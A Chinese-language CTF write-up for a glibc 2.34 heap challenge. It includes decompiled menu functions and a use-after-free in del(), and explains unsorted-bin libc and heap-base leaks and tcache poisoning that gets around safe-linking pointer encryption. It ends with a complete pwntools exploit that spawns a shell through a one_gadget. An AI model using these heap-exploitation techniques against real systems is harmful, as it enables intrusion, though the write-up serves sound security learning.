


`UAF`|`UAF`|`leak_libc`|`leak_heap_base`|`指针加密`|`unsortedbin`|`one_gadget`

```shell
[*] '/home/bamuwe/duck/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./pwn

```shell
/home/ubuntu/glibc/glibc-2.34/build/lib/gconv
/home/ubuntu/glibc/glibc-2.34/build/lib/locale
/home/ubuntu/glibc/glibc-2.34/build/lib/locale/locale-archive
/home/ubuntu/glibc/glibc-2.34/build/share/locale
...
```

>  $ strings  /home/bamuwe/duck/libc.so.6 |grep glibc

```shell
1.Add
2.Del
3.Show
4.Edit
Choice:
```

> $ ./pwn

```c
int del()
{
  int v1; // [rsp+Ch] [rbp-4h]

  puts("Idx: ");
  v1 = numinput();
  if ( v1 <= 20 && qword_4060[v1] )
  {
    free(qword_4060[v1]);
    return puts("Done");
  }
  else
  {
    puts("Not allow");
    return v1;
  }
}
```

> del()漏洞函数

没有清除指针,存在`uaf`

```c
int edit()
{
  int v1; // [rsp+8h] [rbp-8h]
  unsigned int v2; // [rsp+Ch] [rbp-4h]

  puts("Idx: ");
  v1 = numinput();
  if ( v1 <= 20 && qword_4060[v1] )
  {
    puts("Size: ");
    v2 = numinput();
    if ( v2 > 0x100 )
    {
      return puts("Error");
    }
    else
    {
      puts("Content: ");
      sub_12AC(qword_4060[v1], v2);
      puts("Done");
      return 0;
    }
  }
  else
  {
    puts("Not allow");
    return v1;
  }
}
```

> edit()

```c
int sub_13F3()
{
  int v1; // [rsp+Ch] [rbp-4h]

  puts("Idx: ");
  v1 = numinput();
  if ( v1 <= 20 && qword_4060[v1] )
  {
    puts(qword_4060[v1]);
    return puts("Done");
  }
  else
  {
    puts("Not allow");
    return v1;
  }
}
```

> show()

```c
int add()
{
  int i; // [rsp+4h] [rbp-Ch]
  void *v2; // [rsp+8h] [rbp-8h]

  v2 = malloc(0x100uLL);
  for ( i = 0; i <= 19; ++i )
  {
    if ( !qword_4060[i] )
    {
      qword_4060[i] = v2;
      puts("Done");
      return 1;
    }
  }
  return puts("Empty!");
}
```

> add()

```python
def add():
    io.sendlineafter(b'Choice: ',b'1')
    
def free(idx):
    io.sendlineafter(b'Choice: ',b'2')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def show(idx):
    io.sendlineafter(b'Choice: ',b'3')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: ',b'4')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    io.sendlineafter(b'Size: \n',str(int(0x100)))
    io.send(content)
```

程序逻辑:

1. `add()`会分配一个`0x110`空间的堆块

   ```shell
   pwndbg> heap
   Allocated chunk | PREV_INUSE
   Addr: 0x55555555b000
   Size: 0x291
   
   Allocated chunk | PREV_INUSE
   Addr: 0x55555555b290
   Size: 0x111
   
   Allocated chunk | PREV_INUSE
   Addr: 0x55555555b3a0
   Size: 0x111
   
   Allocated chunk | PREV_INUSE
   Addr: 0x55555555b4b0
   Size: 0x111
   
   Top chunk | PREV_INUSE
   Addr: 0x55555555b5c0
   Size: 0x20a41
   ```

2. `edit()`能够对堆上数据进行修改

   ```shell
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 1
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 1
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 4
   Idx:
   0
   Size:
   10
   Content:
   AAAA
   Done
   1.Add
   2.Del
   3.Show
   4.Edit
   Choice: 
   ```

   ```shell
   0x55555555b290  0x0000000000000000      0x0000000000000111      ................
   0x55555555b2a0  0x0000000a41414141      0x0000000000000000      AAAA............
   0x55555555b2b0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2c0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2d0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2e0  0x0000000000000000      0x0000000000000000      ................
   0x55555555b2f0  0x0000000000000000      0x0000000000000000      ................
   ```

利用思路:

1. 先用`unsorted_bin`泄露`libc`和`heap_base`

   ```python
   for i in range(9):
       add()           #0-7
   for i in range(9):
       free(i)         #0-7
   #leak_libc
   show(7)
   main_arena_addr = u64(io.recv(6).ljust(8,b'\x00'))-96
   libc_offset = main_arena_addr-lib.sym['main_arena']
   one_addr = 0xda864+libc_offset			#one_gadget
   IO_file_jumps = libc_offset + lib.sym['_IO_file_jumps']
   success(f'main_arena_addr=>{hex(main_arena_addr)}')
   success(f'one_addr=>{hex(one_addr)}')
   success(f'IO_file_jumps=>{hex(IO_file_jumps)}')
   #leak_heap_base
   show(0)
   heap_base_addr = u64(io.recv(5).ljust(8,b'\x00'))
   success(f'heap_base_addr=>{hex(heap_base_addr)}')
   ```

   > 获得了libc,heap_base,one_gadget

2. 利用`tcache_bin`伪造`fake_chunk`获得`shell`

   ```python
   for i in range(5):
       add()           #8-13
   edit(1,p64(heap_base_addr^IO_file_jumps))       #对chunk0修改	`指针加密`
   add()               #14
   add()               #15
   edit(15,p64(0)*3+p64(one_addr))
   ```

   

   先控制`tcache_bin`中剩余两个节点,方便我们操作

   

   成功修改为`IO_file_jumps`地址,这里因为**指针加密**机制的存在,所以`p64(heap_base_addr^IO_file_jumps)`

关于**指针加密**:

在`glibc2.32`之后引入了一个新的指针机制:

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = NULL;
  return (void *) e;
}
```

> malloc

引入了一个异或加密,现在要寻找一个地址,需要使用真实地址与`heap_base`地址进行异或,得到指针,给利用带来了难度,但同时也带来了新的泄露姿势

> https://www.anquanke.com/post/id/236186

___

exp:

```python
#Ubuntu2.34
from pwn import *
context.log_level = 'debug'
io = gdb.debug('./pwn')
# io = remote('node4.anna.nssctf.cn',28254)
elf = ELF('./pwn')
lib = ELF('/home/bamuwe/duck/libc.so.6')
def add():
    io.sendlineafter(b'Choice: ',b'1')
    
def free(idx):
    io.sendlineafter(b'Choice: ',b'2')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def show(idx):
    io.sendlineafter(b'Choice: ',b'3')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: ',b'4')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    io.sendlineafter(b'Size: \n',str(int(0x100)))
    io.send(content)

for i in range(9):
    add()           #0-7
for i in range(9):
    free(i)         #0-7
                    
#leak_libc
show(7)
main_arena_addr = u64(io.recv(6).ljust(8,b'\x00'))-96
libc_offset = main_arena_addr-lib.sym['main_arena']
one_addr = 0xda864+libc_offset			#one_gadget
IO_file_jumps = libc_offset + lib.sym['_IO_file_jumps']
success(f'main_arena_addr=>{hex(main_arena_addr)}')
success(f'one_addr=>{hex(one_addr)}')
success(f'IO_file_jumps=>{hex(IO_file_jumps)}')
#leak_heap_base
show(0)
heap_base_addr = u64(io.recv(5).ljust(8,b'\x00'))
success(f'heap_base_addr=>{hex(heap_base_addr)}')

for i in range(5):
    add()           #8-13
edit(1,p64(heap_base_addr^IO_file_jumps))       #对chunk0修改
add()               #14
add()               #15
edit(15,p64(0)*3+p64(one_addr))
io.interactive()
```


